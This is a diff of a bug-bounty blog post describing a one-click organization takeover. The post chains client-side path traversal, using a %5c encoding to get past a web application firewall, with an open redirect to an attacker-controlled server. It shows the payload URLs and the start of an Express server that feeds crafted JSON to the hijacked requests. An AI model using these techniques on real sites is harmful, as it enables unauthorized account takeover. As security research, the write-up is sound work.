

Before and after one commit to i7z00/i7z00_blogs, a Markdown page: posts/blog_1.md, 3 parts joined by grey strips. Shown: that part at 81% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/blog_1.md
+++ b/posts/blog_1.md
@@ -1,6 +1,6 @@
-# 1-click oraganiztion takeover chaining a cspt with open redirect
+# 1-Click Organization Takeover: Chaining CSPT with Open Redirect
 
-cspt is very common among bug bounty programs, although most of the times you can't report it alone, you can chain it with other types of bugs to achive a higher impact.
+CSPT (Client-Side Path Traversal) is very common among bug bounty programs. Although most of the time you can't report it alone, you can chain it with other types of bugs to achieve a higher impact.
 
-## finding the cspt:
+## Finding the CSPT
 
@@ -8,18 +8,8 @@ for finding cspts i always use the amazing [geko]() extension by [bu4factor](),w
 
-`https://target.com/docs/1e64dfa4-bee3-4edb-9547-817d3b3cc394`
-
-so i tried:
-
-`https://target.com/docs/1e64dfa4-bee3-4edb-9547-817d3b3cc394%2f..%2fcspt`
-
-but i was blocked by the waf, so i tried using %5c:
-
-`https://target.com/docs/1e64dfa4-bee3-4edb-9547-817d3b3cc394%5c..%5ccspt`
-
-and it worked!!
+`https://target.com/docs/aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee`
 
 
-## finding the open redirect:
+So I tried:
 
-one of the application functionalities allows you to integrate third party websites, and for this docs integeration it asks you to add the tenant name(directly apended to the third party tenants domain) then authenticate to the tenant.
+`https://target.com/docs/aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee%2f..%2fcspt`
 
@@ -31,19 +21,39 @@ so in the tenant name i tried adding special characters like (/ ? " ') and the a
 
-like that i can add my own domain as a tenant! in the next step for adding the integeration the application asks you to verify authentication, clicking of verfiy the authentication button redirects you to your tenant in this case it redirect to my own website!! the open redirect endpoints looked something like this:
+## Finding the Open Redirect
 
-`https://target.com/authenticate/intgeration/verify`
+One of the application functionalities allows you to integrate third-party websites. it asks you to add the **Tenant Name** (directly appended to the third-party tenant's domain) and then authenticate to the tenant.
 
-## the first issue: javascript Type error
+![image](../images/image.png)
 
-after finding the open redirect i can now control the response of the webpage with the cspt to come from my own server, fortunatly the original response contained a json object that controls the whole webpage content.but the application uses vue js so direct xss won't work here, so i copied the original json response hosted it in my own server and played with it, but nothing showed i check the console and found this error:
+In the tenant name field, I tried adding special characters like (`/ ? " '`) and the application accepted it! I tried testing for other types of bugs like XSS and SSRF, but nothing worked. However, I found that I could manipulate the path.
 
-![image](../image%20copy%202.png)
+![image](../images/image%20copy.png)
 
-debuging using  the dev tools it turned out that this piece of code broke because of my json reponse and expects it to be an array, after investigation it turns out that the cspt manipulated another request that should return an array but now its returning my json object instead.
+Like that, I can add my own domain(plus path) as a tenant! In the next step for adding the integration,I tried adding `https://hacker.com/exploit?`and it worked adding the rest of the domain name to url query. after that the application asks you to verify authentication. Clicking the verify authentication button redirects you to your tenant in this case, it redirects to my own website!! The open redirect endpoint looked something like this:
 
-so to solve this issue i realized that my cspt affected three different requests made by same page, two of them expects a json object and they where different but i can nest all the data needed to make the code work inside one object. and the third one expects an array. so i programed my server to responed with a json obect for the first two requests to this endpoint and in the third request it should respond with an empty array. here is the code i used:
+`https://target.com/authenticate/integration/verify`
 
-```
+visiting this endpoint will redirect the user to `https://hacker.com/exploit?`
+
+the full exploit url:
+
+`https://target.com/docs/..%5c..%5c..%5c..%5cauthenticate/integeration/verify` the application tries to fetch `https://hacker.com/exploit`.
+
+## The First Issue: JavaScript Type Error
+
+After finding the open redirect, I could now control the response of the webpage with the CSPT to come from my own server. Fortunately, the original response contained a JSON object that controls the whole webpage content. However, the application uses Vue.js, so direct XSS won't work here.
+
+I copied the original JSON response, hosted it on my own server, and played with it, but nothing showed up. I checked the console and found this error:
+
+![image](../images/image%20copy%202.png)
+
+Debugging using the dev tools, it turned out that this piece of code broke because of my JSON response. It expects an Array, but after investigation, it turned out that the CSPT manipulated another request that should return an Array, but now it is returning my JSON object instead.
+
+To solve this issue, I realized that my CSPT affected **three different requests** made by the same page: two of them expect a JSON object (and they were different, but I can nest all the data needed inside one object), and the third one expects an Array.
+
+So, I programmed my server to respond with a JSON object for the first two requests to this endpoint, and for the third request, it responds with an empty array. Here is the code I used:
+
+```javascript
 let hitcount = 0;
 app.get('/exploit.json', (req, res) => {
         hitcount++
````
Also changed, not shown: other parts of posts/blog_1.md (+22 -10 lines).
